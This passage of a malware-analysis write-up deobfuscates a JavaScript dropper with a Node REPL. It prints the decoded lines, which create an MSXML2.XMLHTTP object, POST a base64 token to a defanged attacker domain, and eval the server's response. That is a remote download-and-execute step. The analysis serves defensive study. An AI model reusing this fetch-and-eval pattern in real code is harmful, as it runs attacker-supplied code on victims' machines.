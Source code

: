 Moving on to the next important piece of the puzzle, the deobfuscator function.   

### Deobfuscator Function And Beyond

I cleaned and notated the deobfuscator function enough to understand the basic behavior, but I will admit, there are some sections in which I did not spend a lot of time in the weeds. Specifically, the two functions defined within `deobfuscator` on lines 68 and 80, and their respective for-loops. In this case, it was enough to understand they perform "some action" on the arguments passed to them. No deep dive into the specific for-loop shenanigans necessary.  
With that said, I have provided comments as to my understanding of the deobfuscator function in the code screenshot, if interested. The quick and dirty explanation: using the `numeric_arg`, the function grabs a value from the `get_array` array. It modifies the `array_value` variable using a more complex series of functions, and returns a value.  

Now we can finally get to the payload finale, the real important stuff -- lines 50, 51, 52, and 122.
```JS
var activex_object = new ActiveXObject(call_deobf_2('7FM9', 0x2a1) + call_deobf_2('@f0l', 0x2a3));
activex_object[call_deobf_2('@f0l', 0x293)](call_deobf_2('7#tp', 0x28a), call_deobf_2('Yu2X', 0x2a0) + call_deobf_2('Fo89', 0x2ab) + call_deobf_2('HSRT', 0x2a9) + call_deobf_2('jlDe', 0x29f) + call_deobf_2('oRu9', 0x287), ![]), 
activex_object[call_deobf_2('HC5I', 0x285) + call_deobf_2(')X0A', 0x2a7)](call_deobf_2('O)P#', 0x2aa) + call_deobf_2('HSRT', 0x2ac) + call_deobf_2('@9eY', 0x28e), '1');
```

Starting with the first two lines, we can see a variable of type `ActiveXObject` is being created, but the argument passed in is the result of two function calls. How can we determine what this value may be?  

Since I know the purposes of the `get_array` and `deobfuscator` functions are "benign" (not directly executing malicious code), I can start up a Node REPL (Read-Eval-Print-Loop) session to play with the JavaScript dynamically. To do this, simply enter `node` in the command prompt, provided Node.js is installed on the device.  

Once here, I pasted the two functions into REPL, as it will save functions for the duration of the session.  
Then, I pasted the entire anonymous, self-invoking function into REPL as well, since I know all it does it rotate the array. Perfect, now all we need to do is paste lines 54-59 (a function which calls `deobfuscator` I named `call_deobf_2`) into REPL and I can start manually deobfuscating.

{{< figure src="images/node_example.png" alt="node_example" position="center" >}}

So, now we know line 50 is actually
```JS
var activex_object = new ActiveXObject('MSXML2.XMLHTTP')
```
and is how to define an XMLHTTP object, which provides client-side protocol support for communication with HTTP servers.

Performing the same action, the remaining three lines are (intentionally defanged)
```JS
51: activex_object['open']('POST', 'https://e9171.asset.tradingvein[.]xyz/subscribeEvent', ![]), 
52: activex_object['setRequestHeader']('Upgrade-Insecure-Requests', '1');
122: activex_object['send']('0fLZsUtGNjQj6htMDKjCPOqLbq6CaK8DLSt7/ur7qQ=='), this['eval'](activex_object['responseText']);
```
We've done it! Line 51 initializes a non-asynchronous POST request to a new domain and line 52 sets the Upgrade-Insecure-Requests header to 1, so HTTP will not be used as a fallback if HTTPS fails. Finally, line 122 sends a base64 encoded string to the domain and executes what is returned in the responseText.
